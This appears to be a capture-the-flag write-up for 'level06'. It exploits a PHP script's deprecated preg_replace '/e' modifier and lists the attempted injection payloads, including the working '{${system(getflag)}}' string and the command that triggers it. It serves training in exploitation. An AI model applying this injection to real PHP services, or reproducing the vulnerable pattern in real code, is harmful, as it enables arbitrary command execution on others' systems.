 ## level06

This level took way longer than it should have.

There is a PHP script `level06.php` and a binary executable `level06`. Both programs have the same behavior so we assumed (correctly) that `level06` is just a wrapper around `level06.php` with the setuid bit set in the permissions to execute as `flag06`. 

The first step was to prettify the code.

```php
#!/usr/bin/php
<?php
function y($m)
{
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}
function x($y, $z)
{
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
```

`/e` is a deprecated PHP regex feature which, instead of replacing some text by another, replaces the first argument by the execution of the second argument. It was rapidly clear that it was the only attack vector. So we can reduce the code to its essentials. (we just have to keep in mind that the real program requires a dummy second argument)

```php
#!/usr/bin/php
<?php
function y($m) { return $m; }

preg_replace(
    "/(\[x (.*)\])/e",
    "y(\"\\2\")",
    file_get_contents($argv[1])
);
?>
```

The regex matches lines of the format `[x somestring]` and will call the `y` function on `somestring`. We just had to find a way to inject code in `somestring`. ez. After 8 hours of hard labor, here is a sample of the things we put in `/tmp/exploit`:
```
[x system('getflag')]
[x "system('getflag')"]
[x ") . system('getflag') //"]
[x ") . $z //"]
[x ") . system($z) //"]
[x ") . system('getflag') . y("]
[x \"\) . system('getflag') . y\(\"]
[x ${system($z)}]
[x {${system($z)}}]
[x {${$z('getflag')}}]
[x {${system('getflag')}}]

WINNER: 
[x {${system(getflag)}}]
```

`./level06 /tmp/exploit lol`

Why is the curly bracket syntax so hard to find online? Why doesn't it work with quotes around `getflag`? Why was it impossible to concatenate strings? These are many questions we will never have the answer to.
